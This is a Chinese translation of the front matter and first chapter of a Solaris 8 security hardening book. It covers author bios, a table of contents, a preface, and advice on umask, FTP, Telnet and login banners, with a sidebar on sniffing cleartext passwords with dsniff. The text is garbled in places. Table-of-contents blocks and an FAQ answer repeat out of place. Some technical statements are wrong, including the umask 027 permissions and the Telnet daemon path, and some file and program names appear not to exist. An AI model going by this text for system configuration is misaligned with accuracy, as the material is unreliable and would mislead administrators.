# Sun Solaris 8 安全加固指南

Wyman Miles

Ed Mitchell

F. William Lynch

技术编辑

来自畅销书《网络防御！你的网络》（HACK PROOFING! YOUR NETWORK）的作者团队

# solutions@syngress.com

我们的 MCSE、MCSD、CompTIA 和 Cisco 学习指南印刷量已超过 1,500,000 份，我们继续寻找更好地服务读者信息需求的方法。一种方法就是倾听。

像您这样的读者一直告诉我们，他们希望有一种基于互联网的服务，用以扩展并增强我们书籍的价值。根据读者的反馈和我们自己的战略计划，我们创建了一个网站，希望能够超出您的预期。

Solutions@syngress.com 是一个互动式的实用宝库，专注于我们的书籍主题和相关技术。该网站提供以下功能：

- 针对供应商产品升级导致的内容过时提供一年保修。您可以访问任何受影响章节的在线更新。
- “提问作者”™客户查询表，让您能够向我们的作者和编辑提问。
- 独家每月邮件，我们的专家将对读者的查询提供解答，并对复杂材料进行清晰解释。
- 定期更新的链接，由我们的编辑专门挑选，供希望在关键主题上寻求更多可靠信息的读者。

最棒的是，您现在手持的这本书就是进入这个神奇网站的钥匙。只需访问 `www.syngress.com/solutions`，并在注册时随身备本书以验证您的购买。

感谢您给予我们服务您需求的机会。如果还有任何其他我们可以帮助您从投资中获得最大价值的方法，一定要告诉我们。我们正在倾听。

Wyman Miles

Ed Mitchell

F. William Lynch

Randy Cook 技术编辑

| 密钥序列号 |  |
| :--- | :--- |
| 001 | EAFRE4MDQ |
| 002 | J3VDAT5G |
| 003 | 2ZVPFDAT5G |
| 004 | MNF6Y43GHA |
| 005 | QLR3B3NM6S |
| 006 | KMXV94367H |
| 007 | NSE4E736MSA |
| 008 | P3JR0FD5G |
| 009 | XP3QNFT6Y |
| 010 | KV45YDR45 |

1 2 3 4 5 6 7 8 9 0

技术编辑：Randy Cook

技术评审员：Ryan Donovan

合出版人：Richard Christoph

策划编辑：Catherine B. Nolan

开发编辑：Jonathan Babcock

自由编辑经理：Maribeth Corona-Evans

封面设计：Michael Kavish

页面排版与艺术：Shannon Tozier

校对员：Alexandra Kent 和 Darlene Bordwell

索引员：Claire A. Splan

## 致谢

我们要感谢以下人员的帮助和支持，使本书的成为可能。

Global Knowledge 的 Richard Kristof 和 Duncan Anderson，感谢他们慷慨让我们接触 IT 行业最好的课程、导师和培训设施。

Ralph Troupe、Rhonda St. John 以及 Callisma 团队，感谢他们在设计、部署和支持世界级网络方面提供的宝贵见解。

Publishers West 的 Karen Cross、Kent Tilford、Meaghan Cunningham、Kim Wylie、Harry Kirchner、Kevin Votel、Kent Anderson 和 Frida Yara，感谢他们分享营销经验。

H International 确保了我们的愿景具有全球范围。

Transient Publishers 的 David Buckland、Wendi Wong、Daniel Loh、Marie Chieng、Lucy Chong、Leslie Lim、Audrey Gan 和 Joseph Chan，感谢他们接收我们书籍的热情。

Acorn Publishing 的 Kwon Sung June 提供了支持。

Cranbury International 的 Ethan Atkin 帮助扩展了项目。

## 贡献者

**Hal Flynn** 是 SecurityFocus 的威胁分析师，领先的安全情报服务供应商。Hal 担任高级分析师，对漏洞、恶意代码和网络攻击进行研究和分析。他为 SecurityFocus 团队提供 UNIX 和网络知识。他还是 Focus Area 管理以及 Focus-Sun、Focus-Linux、Focus-BSD 和 Focus-General 邮件列表的管理员。

Hal 的领域经验丰富，从互联网服务提供商的高级系统和网络管理员、美国国防信息系统局承包，到为 Sprint 提供企业级咨询。他还是美国海军的自豪退伍军人，曾在卡罗莱纳州 Camp Lejeune 的第二陆战师担任过海军医兵。Hal 行迹遍布，生活在阳光的亚利桑那州凤凰城和寒冷的加拿大卡加里之间。他根植南部，在阿拉巴马州蒙特哥马利有家。

**Ido Dubrawsky** (CCNA, SCSA) 是网络安全工程师，是思科奥斯汀安全咨询服务的成员。他目前为客户进行安全态评估，并为安全设计评审提供技术咨询。他的优势包括 Cisco 路由器和交换机、PIX 防火墙、Solaris 系统和入侵检测系统。Ido 拥有德克萨斯大学奥斯汀分校学位，是 USENIX 和 SAGE 的成员。他曾在 Sysadmin 杂志以及 SecurityFocus.com 发表过关于关于 Solaris 网络安全的文章。他与家人住在德克萨斯州奥斯汀。

**Drew Simonis** (CCNA, SCSA, SCNA, CCACS, CCSE, IBM) 是《Web 应用防御》（ISBN: 1-92894-31-8）的合作者，也是 RL Phillips Group, LLC 的高级安全工程师。他目前为美国海军提供高级安全咨询，负责大型企业网络。他认为自己是一个安全

Drew 是一位通用型专家，在系统管理、互联网应用开发、入侵检测与防御以及渗透测试方面拥有深厚的背景。Drew 的经历包括在 Fider 担任顾问，在 AT&T 担任安全架构师，以及在 IBM 担任技术团队主管。Drew 拥有南佛罗里达大学的学士学位，还是美国智力俱乐部（MENSA）的成员。Drew 目前与妻子 Kym 以及女儿 Cailyn 和 Delaney 住在弗吉尼亚州的萨福尔克（Suffolk）。

Mike Lickey 是弗吉尼亚州里士满市 IPC Technologies 的高级工程师。他拥有 20 年的系统管理经验，长期与实时生产服务器环境工作，精通关键系统。他在 IPC Technologies 工作了近十十年，为所有平台提供广泛的支持。作为一名顾问，他几乎专门为富富 100 强公司服务，涉及多个系统和网络架构。自 1985 年获得第一份系统相关工作以来，他在系统安全方面拥有丰富的经验。Mike 与妻子 Deborah 已经在里士满市生活了近 25 年。他在弗吉尼亚州立立大学获得了英语学士学位。

F William Lynch (SCSA, CCNA, MCSE, MCP, A+) 是科罗拉多州丹佛市的一名独立安全与系统管理顾问。他的专长包括防火墙、VPN、安全审计、系统性能分析，Solaris 以及 OpenBSD、FreeBSD 和 Linux 等开源操作系统。他曾为跨国公司和联邦政府提供顾问服务，包括位于佐治亚州亚特兰大的疾病控制与预防中心（CDC）总部以及美国空军各航空公司。William 是 MRTG-PME 项目的创始人兼主管，该项目使用 MRTG 引擎跟踪各种 UNIX 操作系统的系统性能。William 拥有俄亥俄州丹顿代顿大学的化学工程学士学位，以及科罗拉多州丹佛市雷吉斯大学的工商管理硕士学位。

Edward Mitchell 是加利福尼亚州圣何塞 ADC 通信增强服务部门的网络运营经理。他监督着基于 Cisco 设备的大型多平台 UNIX 环境，负责网络和系统安全的所有方面。在加入 ADC 之前，Edward 曾作为加利福尼亚州的独立顾问参与过多种网络安全项目。Edward 还为多种客户提供安全和灾难恢复服务，并积极参与各种事件响应小组和活动。他目前居住在加利福尼亚州的中央谷，并感谢妻子在他贡献期间表现出的耐心与理解。

Wyman Miles 是莱斯大学教育技术部门的高级系统管理员和技术经理。在该职位上，Wyman 负责处理大型分布式网络的 Solaris 安全。他还为信息技术部门的其他部门提供安全事务建议。他在安全技术方面的一些开发，包括 Kerberos 部署工具、SSL 代理和无线网络安全，已在各地的学术会议上发表。尽管他的工作重点一直是密码学，但 Wyman 还处理学术网络中基于主机的安全的所有方面。Wyman 拥有物理学学士学位，辅修英语。他与妻子 Erica 居住在德克萨斯州的休斯顿。

## 技术编辑与贡献者


Randy Cook (SCSA) 是 Sapphire Technologies 的高级 UNIX 系统管理员。他目前被分配到全球最大的制造和科学设施之一，提供系统安全和管理支持。他在高威胁环境中与多种 UNIX 发行版工作。Randy 是《Solaris 8.0 Sun 认证系统管理员学习指南》（ISBN: 0-07-212369-9）的作者和技术编辑，并为行业出版物撰写过技术文章。他还主持过名为《Technically News》的联播广播节目，为 IT 专业人员提供新闻和信息。

## 技术评审员

Ryan Ordway 是 @Once, Inc. 的 UNIX 系统管理员，这是一家一对一的电子消息公司，根据客户所表达的兴趣为其客户提供高度定制和个性化的电子邮件。在维护其 110 多台 Sun 服务器组成的网络以及排排除网络问题的同时，Ryan 会花时间在华盛顿州温哥市与他的家人 Stacy 和 Andrew 共度时光。

## 前言

- 暴露默认安全级别 2
- 暴露默认安全级别 4
- 使用 Solaris 5
- 暴露 的安全技术 8
- 审计服务 9
- 监控 Solaris 14
- 监控审计日志 16
- 使用审计日志 17
- 测试安全 18
- 保护物理层安全 21
- 默认安全级别 22
- 限制性的 22 27

xii 目录

- 安全程序 22
- 获取磁盘信息 24
- 总结 27
- 橙色书籍 35
- 配置审计 40
- 理解审计分类 43
- 提取和分析审计数据 45
- B1 级安全 48
- 强制性标签 53
- Solaris 8 安全增强 55
- 利用 VPN 能力 56
- 使用安全工具的系统文件 58
- 总结 61


xiii

## 网络监控异常流量

## 第 3 章：使用免费软件保护 Solaris

67

- 介绍 68
- 使用端口扫描检测漏洞 71
- 高级端口扫描 76
- 发现未经授权的系统 77
- IP 79

在 Solaris 上使用 `arp` 命令

- 网络监控异常流量 81
- 使用 `Snoop` 82
- 使用 `Snort` 83
- 使用专用嗅探器 86
- 使用 `sudo` 88
- 总结 93
- 快速通道 94

常见问题 96

## 第 4 章：保护你的用户

99

- 介绍 100
- 创建安全组组成 101
- 基于角色的访问控制 103
- 理解 Solaris 用户认证 104
- 使用 NIS 和 NIS+ 认证用户 107
- 使用 Kerberos 认证用户 109
- 使用可插身份模块认证用户 115
- 总结 122
- 快速通道 122

常见问题 125

## 第 5 章：保护你的文件

127

- 介绍 128
- 建立权限和所有权 129
- 访问控制列表 132
- 基于角色的访问控制 135

`/etc/user_attr` - `user:qualifier:res1:res2:attr` 136

`/etc/security/auth_attr` - `authtame:res1:res2:short_desc:long_descesc:attr`

`/etc/security/prof_attr` - `profname:res1:res2:desc:attr`

`/etc/security/exec_attr` - `name:policy:type:res1:res2:id:attr`

- 修改默认设置 138
- 使用 NFS 142
- 共享与类共享 143
- 锁定 FTP 服务 145
- 使用 Samba 147
- 监控和审计文件系统 151
- 总结 154
- 解决方案快速通道 154
- 常见问题 156

## 使用 Snoop 监控数据包

# 第 6 章 保护你的网络 159

以下是你可能想要使用 sniff 的几个示例：

- 验证 DHCP 请求是否已由 DHCP 服务器接收并回答
- 识别拒绝服务攻击 (DoS) 攻击的源头
- 确定用户正在访问哪些网站
- 识别怀疑入侵者的源地址
- 定位任何未经授权的主机

- 简介 160
- 将 Solaris 配置为 DHCP 服务器 160
- 使用 `dhcpconfig` GUI 工具 161
- 使用 `dhcpconfig` 命令行工具 170
- 在 Solaris 上保护 DNS 服务 173
- 使用 `BIND` 174
- 为 `BIND` 设置 `chroot` 监狱 180
- 保护 `BIND` 区域区域传输 180
- 配置 Solaris 提供匿名访问 181
- 安全地使用 X-Server 服务 182
- 使用基于主机的认证 183
- 使用基于用户的认证 183
- 结合 SSH 使用 X-Windows 安全 186
- 使用远程命令 187
- 使用内置的远程访问方法 187
- 使用 SSH 进行远程访问 189
- 启用免密码登录 189

# SSH 191

- 总结 193
- 解决方案快速通道 194
- 常见问题 195

## 常见问题解答

# 第 7 章 提供安全的 Web 和邮件服务 199

- 简介 200
- 配置 Apache Web 服务器的安全功能 201
- 限制 CGI 威胁 203
- 使用虚拟主机 206
- 监控网页使用情况和活动 206
- 配置 Sendmail 的安全功能 209
- 停止中继主机威胁 213
- 附件攻击 215
- 总结 218
- 解决方案快速通道 218
- 常见问题 220

问：过滤 `sendmail` 处理的流量的最佳方法是什么？

答：有多种工具可以实现此目的。其中一些是免费软件，另一些是商业软件。你应该根据自己的需求评估每个产品，然后做出适合你环境的选择。某些产品甚至与某些防火墙集成。`Sendmail` 本身真的不应该被用作内容过滤器——它从来不是为此目的而设计的。

# 第 8 章 将 Solaris 配置为安全的路由器和防火墙 223

- 简介 224
- 将 Solaris 配置为安全的路由器 224
- 推理与依据 225
- 路由条件 225
- `S30network.sh` 脚本 226
- `S69inet` 脚本 227
- 配置路由 229
- 七点检查清单 229
- 安全优化 233
- 安全影响 233
- 最小化安装 233
- 最小服务 234
- 最小用户 235
- 最小动态信息 235
- 最小明文通信 235

## 确保系统未被入侵的步骤

- 简介 224
- 将 Solaris 配置为安全的路由器 224
- 推理与依据 225
- 路由条件 225
- `S30network.sh` 脚本 226
- `S69inet` 脚本 227
- 配置路由 229
- 七点检查清单 229
- 安全优化 233
- 安全影响 233
- 最小化安装 233
- 最小服务 234
- 最小用户 235
- 最小动态信息 235
- 最小明文通信 235


- 最小动态信息 235
- 最小明文通信 235
- 简介 224
- 将 Solaris 配置为安全的路由器 224
- 推理与依据 225
- 路由条件 225
- S30network.sh 脚本 226
- S69inet 脚本 227
- 配置路由 229
- 七点检查清单 229
- 安全优化 233
- 安全影响 233
- 最小化安装 233
- 最小服务 234
- 最小用户 235
- 最小动态信息 235
- 最小明文通信 235

- 1. 检查 `/etc/hosts.table` 路由表。如果不存在，请创建它。
- 2. 在重启系统后检查内核中的 `ip_forwarding` 值。如果不存在，请创建它。
- 3. 通过尝试访问另一个接口来测试路由。

| 路由 | 236 |
| 三点检查清单 | 236 |
| IPv6 | 237 |
| 配置 | 237 |
| `hosts.table` | 238 |
| `nppd.conf` | 238 |
| `ipnodes` | 239 |
| `switch.conf` | 240 |
| 使用 IPv6 | 242 |
| 程序 | 242 |
| `innppd` | 242 |
| `inripd` | 243 |
| `ifconfig` | 244 |
| 停止路由 | 245 |
| 方法一：重启系统 | 246 |
| 方法二：重启系统 | 246 |
| IPv6 | 247 |
| 自动配置 | 247 |
| 手动配置 | 248 |
| `ipnodes` | 248 |
| DNS | 249 |
| 使用 Solaris 防火墙 | 250 |
| 防火墙理论 | 251 |
| 防火墙设计 | 252 |
| SunScreen | 253 |
| IP | 254 |
| 使用 NAT | 254 |
| 使用 Snort 保护访问 | 255 |
| Snort 配置 | 256 |
| Snort 分析 | 257 |
| 总结 | 259 |
| 解决方案快速通道 | 261 |
| 常见问题 | 263

# 第 9 章 在 Solaris 上使用 Squid 265

- 简介 266
- Squid 的默认设置 266
- 配置 Squid 267
- `http_port` 267
- `cache_dir` 269
- 访问控制列表 271
- 配置 SNMP 272
- `cachemgr.cgi` 工具 274
- 新功能 274
- 访问 Solaris 275
- 配置服务 276
- 访问用户 277
- 练习 9.1: Netscape 278
- 练习 9.2: Lynx 279
- 练习 9.3: Internet 280
- 自动配置 281
- 按目标过滤 281
- 按 MIME 类型过滤 282
- 按头部过滤 283
- 按长度过滤 284
- 总结 285
- 解决方案快速通道 286
- 常见问题 288

问：过滤 `sendmail` 处理的流量的最佳方法是什么？

答：有多种工具可以实现此目的。其中一些是免费软件，另一些是商业软件。你应该根据自己的需求评估每个产品，然后做出适合你环境的选择。某些产品甚至与某些防火墙集成。`Sendmail` 本身真的不应该被用作内容过滤器——它从来不是为此目的而设计的。

# 第 10 章 破解攻击 287

- 简介 288
- 保护拒绝服务攻击 288
- 死亡踢 289
- SYN 洪水 290
- 配置服务 294

# 第 11 章 检测并拒绝攻击 296

- 简介 298
- 监控黑客活动 298
- 使用 Tripwire 299
- Tripwire 全局设置 300
- Tripwire 邮件设置 301
- Tripwire 文件 302
- 使用 脚本监控系统管理员 303
- 监控运行进程 304
- 监控 CPU 活动 305
- 综合考虑 306
- 检测到攻击后怎么办 307
- 什么是蜜蜜罐？308
- 在 Sun 系统上构建蜜蜜罐 309
- Solaris 商业蜜蜜罐 310
- 监控 Solaris 日志

每日报告

有很多很好的方法可以自动化审查日志的过程。一个非常流行的程序叫做 `swatch`。该程序的名字源于“简单观察者和过滤器”。它由 Todd Atkins 用 `Perl` 编写，并可以在 www.stanford.edu/~atkins/swatch 找到。`Swatch` 的安装和配置非常简单，对于监控日志文件并向你告警潜在问题非常有帮助。

## 前言

多年前，我的父亲决定在我们的后院放一个鸟类食器器。这棒极了。从我们的早餐桌上，我们可以看到各种鸟类来到我们的院子。然而，那里很快变成了当地松鼠群的正式聚集地。松鼠会吃光鸟食器器里的食物并把鸟赶走。我和兄弟们觉得松鼠和鸟一样有趣，但我父亲并不这么认为。他把它们称为“会杂技的害虫”，它们很快成为了一个重大家庭项目的焦点。该项目的目标是设计一种鸟类可以轻松获取但松鼠无法触及的鸟类食器器。表面上看，这听起来很容易。要胜过呆笨的松鼠有多难呢？至少当父亲第一次向我们解释这个项目时，我和兄弟们是这样想的。整个夏天研究这个项目会很有趣。我们的鸟食器器设计从简单到荒谬不等。每种设计都能暂时生效，但最终松鼠都会找到绕过我们防御的方法。每一次，我们的对手都智胜了我们。直到今天，当我们聚在一起时，话题总是不可避免地转向我们某人提出的“终极防鼠鸟类食器器”的设计想法。这个项目可以永远进行下去，原因很简单：它根本做不到。

当我接触计算机安全领域时，我一直在思考那个终极防鼠鸟类食器器。我们的设计最终每次失败的原因其实非常简单。我们设计的越有挑战性，松鼠为了击败它就变得越狡猾。从本质上说，我们看到的是达尔文理论的应用。我们的努力在帮助一只更聪明、更狡猾的松鼠。我仍然经常做这样一个梦：我走进一个办公室参加技术面试，发现有一只松鼠坐在桌子后面。

这种情况与我们在计算机安全中面临的挑战非常相似。我们如何让授权用户轻松访问资源，同时拒绝未经授权的访问？

幸运的是，作为 Solaris 系统管理员，我们有一些非常优秀的工具可以使用。太阳微系统公司花费了大量精力设计 Solaris 既稳定又安全。本书不仅是您保护 Solaris 系统的参考指南，也是保护其运行环境的参考指南。它并非设计作为 UNIX 的介绍或 Solaris 系统管理员的入门读物，而是为需要确保系统安全的丰富 Solaris 系统管理员准备的参考指南。

从第 1 章开始，我们尝试缩小你与系统之间的竞争差距。首先讨论如何评估你当前的安全方案。黑客总是会利用的一点就是系统管理员的自满。我们将首先回顾在新安装的 Solaris 8 系统上看到的默认设置。我们还会回顾测试、监控和记录安全程序的基础知识。

接下来，在第 2 章中，我们涵盖了太阳微系统提供的标准安全工具。这包括对 Sun BSM 产品的概述以及 Sun Trusted 8 特性的介绍。

在第 3 章中，我们引入了常用于保护和监控 Solaris 系统的第三方安全工具。这一章不仅推荐了一些手头必备的价值工具，还介绍了如何获取它们以及如何配置它们以实现最大效果。

我们在第 4 章和第 5 章中开始讨论如何保护我们的资源。首先是用户如何在 Solaris 系统上进行身份验证的。然后讨论如何配置文件权限以及常用的 FTP 和 NFS 等协议，以便在经过验证的用户之间安全地传输信息。


一旦我们加了系统，就需要探索提供安全网络服务的选项。如今，网络用户需要访问本地网络和互联网上的资源。打开这扇门对于系统管理员来说可能是巨大的头疼问题。本书很大一部分内容致力于在路由两侧提供安全访问。第 6 章介绍了 Solaris 8 如何通过向网络客户端提供 DNS 和 DHCP 服务，在网络环境中安全运行。在第 7 章中，我们学习了如何配置安全的 Web 和电子邮件服务器。在第 8 章中，我们缩小范围，集中于如何配置 Solaris 作为路由器并提供防火墙服务。第 9 章完全致力于提供 Squid 安全功能配置的信息，`Squid` 是为用户提供 Web 访问的最流行的应用程序之一。

了解对手的方法和工具是击败他们努力的第一步。现在我们已经学习了有哪些可用工具，在第 10 章中，我们将学习


黑客常使用哪些工具来绕过我们的安全。我们涵盖了最流行的攻击方法，例如分布式拒绝攻击（DoS）、死亡之（Ping of Death）以及备受关注的缓冲区溢出漏洞。我们讨论了它们是如何被使用的，以便留意如何配置 Solaris 系统以防止它们被用于我们。

最后，在第 11 章中，我们涵盖了当黑客穿过我们的主防御时我们可以做哪些准备。这一章涵盖了使用免费或商业产品配置 Solaris 蜜罐（Honeypot）系统。通过设计良好的蜜罐系统和一些运气，我们可以在收集入侵者信息的同时约束他们。我们可以利用这些数据来填补漏洞并领先对手。我们的最后一章还涵盖了使用名为 `Tripwire` 的流行文件监控工具，它可以对我们的系统拍摄快照并在关键文件被更改时发出警告。

本书形成了一个闭。从描述对改进和一致安全性的需求，到学习当我们的努力失败时该做什么。

我们的“终极防鼠鸟类食器器项目”出于同样的原因失败了：它根本做不到。

# 第 1 章

## 介绍 Solaris 安全：评估您的风险

本章解决方案：

- 暴露默认 Solaris 安全级别
- 评估当前安全状况
- 系统监控
- 安全测试
- 针对物理风险的安全防护
- 记录安全程序和配置
- 总结
- 解决方案快速通道
- 常见问题解答

## 引言

几乎任何操作系统的默认安装都是黑客的首要目标，Solaris 也不例外。这些安装程序通常缺少厂商补丁，通过比需要更高的权限运行系统守护进程，并且可能使用不安全的协议。本章旨在引导你通过检查安装的缺陷以及可用的监控工具，开始思考 Solaris。

大多数入侵都会导致你的 Solaris 系统显示出特征活动，因此，学会有效使用 Solaris 内置的监控工具（无论是命令行模式还是 GUI 模式）至关重要。监控工具的有效使用超越了对黑客活动的检测，它能提供有价值的信息，帮助你检测系统瓶颈并辅助容量规划。出于这些原因，本章将教你一些可以有效监控 Solaris 的技术。

系统文档是另一个被过度忽视的增加 Solaris 系统安全性的方法。文档会产生纸质轨迹，帮助你判断是否任何系统在安全维护方面落后了进度。本章将向你介绍应该开发的文档以及如何开发这些文档。

默认的 Solaris 安装在许多领域表现出许多安全缺陷。本章将帮助你通过学习像攻击者一样思考来识别并消除这些环节。

### 暴露默认 Solaris 安全级别

Solaris 的安装程序有许多可配置选项，允许你执行所有配置任务，从设置网络到选择要安装的额外软件。然而，设置程序主要关注 Solaris 操作环境的安装，而不是安全性。因此，你留需要自己来保护系统。

在本节中，我们将识别并讨论新安装的 Solaris 系统上的默认安全配置。在可能存在漏洞的领域，例如明文协议身份验证，

### 修改默认权限

在 UFS 文件系统中，每个文件都有一组关联的权限，用于控制对对象的访问。这些权限统称为模式（mode）。

访问，或简单称为模式（mode）。模式由三个八进制数字组成，用于指定文件或目录的用户、组和其他用户的访问权限。这些数字的范围从 0 到 7 不等。读取权限由 4 指定，写入权限由 2 指定，执行权限由 1 指定。这些权限可以组合，例如，模式 5 表示指定了读取和执行权限。

UFS 文件系统的默认权限由 `umask` 设置控制，该设置指定了新对象继承的权限。这些权限是 `chmod` 命令中所用数值的八进制补数。例如，`umask` 模式 027 赋予的权限等于 `chmod` 模式 750 的权限，即所有者没有权限，组具有执行权限，而其他人无任何访问权限。每个用户的 `umask` 设置由 `/etc/profile` 中的设置值控制，默认为 022。请注意，`/etc/profile` 的设置可能会被 `/etc/skel` 目录下骨架文件的设置覆盖。表 1.1 总结了常见的模式和 `umask` 权限。

### 表 1.1 常见模式和 Umask 权限

| 权限 | 模式设置 | Umask 设置 |
|---|---|---|
| 无访问权限 | 0 | 7 |
| 执行权限 | 1 | 6 |
| 写入权限 | 2 | 5 |
| 读取权限 | 4 | 3 |
| 完全控制 | 7 | 0 |

对于大多数组织来说，022 的默认 `umask` 可能无法接受，因为它的限制允许系统上的任何人都读取其他用户生成的文件。这在某些应用系统账户中是不理想的，例如 Oracle 账户，其家目录可能包含敏感数据。

出于类似原因，超级用户应该始终具有 077 的 `umask`，这是对其他用户最严格的限制。此类限制旨在防止过度好奇的用户和具有恶意意的人读取或执行本应限 root 使用的文件或程序。因此，最佳实践建议将 `/etc/profile` 中所有用户的默认 `umask` 以及 `/etc/skel` 目录中的默认骨架文件设置为更严格的值，例如 027 或 077。


### 安装后使守护进程可用

Solaris 安装默认安装了许多系统守护进程，但某些守护进程需要微调以便以更安全的模式运行。还有其他守护进程，例如 Apache，它们默认不安装，但可能需要运行。本节将描述如何调整某些系统服务，以及如何配置 Apache 以执行简单任务。

### 使用 Solaris 作为 FTP 服务器

当需要从一个系统传输文件到另一个系统时，文件传输协议（FTP）已成为系统之间复制文件的习惯方式。尽管 Solaris 默认包含了完整的 FTP 服务，但不建议使用它，因为 FTP 是一种明文协议，黑客可以使用嗅探工具轻易绕过它。第 6 章描述的安全复制（SCP）是更优良的文件传输形式，因为数据、密码和命令都经过了加密。然而，在某些 FTP 服务是必要功能的情况下，本节将讨论如何尽可能安全使用 Solaris 的 FTP 功能。

对 FTP 服务器的访问可以使用 `/etc/ftpusers` 文件进行限制。此文件中列出的任何用户账户将无法获得 Solaris FTP 服务的授权。Solaris 8 默认在此文件中列出了超级用户和许多系统账户。控制 FTP 访问的最安全方法是在 `/etc/ftpusers` 中列出所有系统用户账户，然后仅移除需要 FTP 服务的账户。如果不需要 FTP 访问，应通过在 `/etc/inetd.conf` 中完全省略 FTP 服务来禁用它。

#### 安全警报！

> 在发布 8 版本之前，Solaris 默认允许 root 用户通过 FTP 访问。至关的一点是，在旧系统上应尽快通过将 root 账户放入 `/etc/ftpusers` 来立即禁用此类访问。允许 root 账户访问 FTP 不仅会在传输会话期间嗅探到 root 密码，还会让系统面临通过猜测 root 密码进行破解攻击而导致的风险。

### 使用 Telnet 访问 Solaris 系统

可能比 FTP 访问更常见的是 Telnet 访问，允许用户远程连接到系统并像在系统控制台上操作一样执行命令。不幸的是，Telnet 协议与 FTP 协议一样都是明文协议，允许从网络中轻易嗅探密码。除了密码之外，用户的整个会话都可能在“用户背后”被嗅探。因此，你应该认真考虑用加密协议（如第 6 章所述的 SSH）替换 Telnet 访问。此外，本节将讨论如何运行 Telnet 服务器。

Telnet 守护进程通常由 `inetd`（互联网服务器）运行，它根据需要启动 Telnet 守护进程会话。Solaris 安装默认会激活 Telnet 服务器，但可以通过注释 `/etc/inetd` 中的条目来禁用它。

```
telnet stream tcp6 nowait root /usr/bin/in.telnet in.telnet
```

从此条目中我们可以确定 Telnet 支持 IPv6，并且可以通过传输控制协议（TCP）流访问。指定 `nowait` 允许多个 Telnet 会话并发运行。Telnet 服务以 root 身份运行，使用系统二进制文件 `/usr/sbin/in.telnet` 作为 Telnet 守护进程。


你可能会发现，不允许通过 Telnet 进行 root 登录。这种设置防止了对 root 账户的破解，无论密码是否有效。如果绝对必要，可以通过注释 `/etc/default/login` 中的 `CONSOLE` 部分来启用 root 登录，但这会使系统面临破解攻击，并允许密码从网络中被嗅探。

Telnet 服务的认证由可插认证模块（PAM）提供并在 `/etc/pam.conf` 中配置。在默认安装中，`/etc/pam.conf` 中列出特定的 Telnet 条目，因此 Telnet 使用指定的“other”方法。这些条目通常足够，但在某些情况下（例如使用 Kerberos 进行认证时），可能需要在 `/etc/pam.conf` 中添加以“telnet”开头的新条目，并指向相应的 PAM 库。适用于使用。

# 第1 章 • 介绍 Solaris 安全：评估您的风险

## 来自底下的笔记

### 使用 dsniff 嗅探密码

你可能会疑惑为什么我一直抱怨 FTP 和 Telnet 等明文协议的不安全性。毕竟，解码这些线路上的二进制信息有多容易？实际上非常容易，这归功（取决于你的观点）一个免费工具 `dsniff`。`dsniff` 的主页是 `monkey.org/~dusong/dsniff/`，Solaris 二进制包可以在 `www.sunfreeware.com/programlistsparc.html#dsniff` 获取。你可以使用 `dsniff` 从任何明文协议中捕获登录和密码组合以及其他数据，包括 FTP、Telnet、SMTP、HTTP、POP、poppass、NNTP、IMAP、SNMP、LDAP、Login、RIP、OSPF、PPTP MS-CHAP、NFS、YPIP、SOCKS、X11、CVS、IRC、AIM、ICQ、Napster、PostgreSQL、Meeting Maker、Citrix ICA、Symantec pcAnywhere、NAI Sniffer、Microsoft SMB、Oracle SQL、Sybase 和 MySQL。在示例中，我将展示如何捕获 FTP 和 Telnet 密码，尽管其他协议同样容易。图 1.1 显示了从用户角度看到的实际登录会话。注意，用户完全不知道他的密码被嗅探了。图 1.2 是用户会话期间捕获的密码的 `dsniff` 输出。

### 图 1.1 用户视角下的登录会话



## 介绍 Solaris 安全：评估您的风险 · 第1章

### 图 1.2 dsniff 输出的用户会话期间捕获的密码



在这里我们可以看到，`dsniff` 轻松地确定了用户 `scarter` 的密码是 `weakpwd`。你该如何防止此类攻击呢？首先，你应该加固你的系统。由于 `dsniff` 要求网络接口在混杂模式下运行，因此黑客需要 root 权限才能捕获密码。如果你的系统是安全的，你希望可以防止攻击者获得超级用户权限。使用完全交换的网络也能缓解很大一部分风险，因为黑客从每个受攻击的主机一次只能嗅探一个主机。

### 使用默认环境设置

根据所使用的交互式 shell 的不同，各种全局配置文件可能会影响用户环境的安全性。对于基于 Bourne 的 shell，如 `/bin/sh`、`/bin/ksh` 和 `/bin/bash`（如果已安装），用户的全局配置文件是 `/etc/profile`。对于 Bourne 派生的 shell，这些环境设置在用户本地设置（`$HOME/.profile`）之前评估，并可能被本地用户设置覆盖。我们已经讨论过该文件中 `umask` 设置的修改，这里有一些你可能想要实施的细微安全调优。

## 第1章 介绍 Solaris 安全：评估您的风险

在 `/etc/motd` 和 `/etc/issue` 中实施授权横幅（Authorized banners），并强制 `/etc/profile` 在登录时显示 `/etc/motd` 是一种良好的安全实践。默认的 `/etc/profile` 允许用户绕过 `/etc/motd` 的显示，因此你应该考虑将其移出 `/etc/profile`。下面的安全警报侧边栏显示了一个授权使用横幅示例。

